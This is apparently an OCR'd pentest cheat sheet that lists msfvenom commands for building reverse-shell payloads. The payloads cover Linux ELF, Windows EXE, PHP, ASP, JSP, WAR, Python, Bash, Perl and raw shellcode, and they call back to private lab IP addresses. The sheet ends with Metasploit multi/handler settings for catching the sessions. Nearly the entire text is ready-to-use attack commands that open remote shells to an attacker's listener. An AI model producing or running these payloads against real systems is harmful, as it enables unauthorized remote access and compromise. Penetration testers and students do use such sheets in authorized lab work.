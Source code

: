 # MSFVenom Shells

- Linux
→ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.49.163 LPORT=443 -f elf > shell.elf

- Windows
→ msfvenom -p windows/shell/reverse_tcp LHOST=10.11.0.236 LPORT=443 -f exe > shell.exe

- PHP
→ msfvenom -p php/reverse_php LHOST=10.11.0.236 LPORT=443 -f raw > shell.php
→ msfvenom -p php/meterpreter_reverse_tcp LHOST=10.11.0.236 LPORT=443 -f raw > shell.php
→ cat shell.php | pbcopy && echo ‘<?php ’ | tr -d ‘\n’ > shell.php && pbpaste >> shell.php

- ASP
→ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.236 LPORT=443 -f asp > shell.asp

- JSP
→ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.236 LPORT=443 -f raw > shell.jsp

- WAR
→ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.236 LPORT=443 -f war > shell.war

Scripting Payloads:

- Python
→ msfvenom -p cmd/unix/reverse_python LHOST=192.168.49.163 LPORT=2222 -f raw > shell.py

- Bash
→ msfvenom -p cmd/unix/reverse_bash LHOST=192.168.49.163 LPORT=443 -f raw > shell.sh

- Perl
→ msfvenom -p cmd/unix/reverse_perl LHOST=10.11.0.236 LPORT=443 -f raw > shell.pl

Msfvenom Shellcode:

- Linux Based Shellcode
→ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.236 LPORT=443 -f <language>

- Windows Based Shellcode
→ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.236 LPORT=443 -f <language>

Metasploit Multihandler:
- exploit/multi/handler
- set PAYLOAD windows/meterpreter/reverse_tcp
- set LHOST 0.0.0.0
- set LPORT 000
- set ExitOnSession false
- exploit -j -z
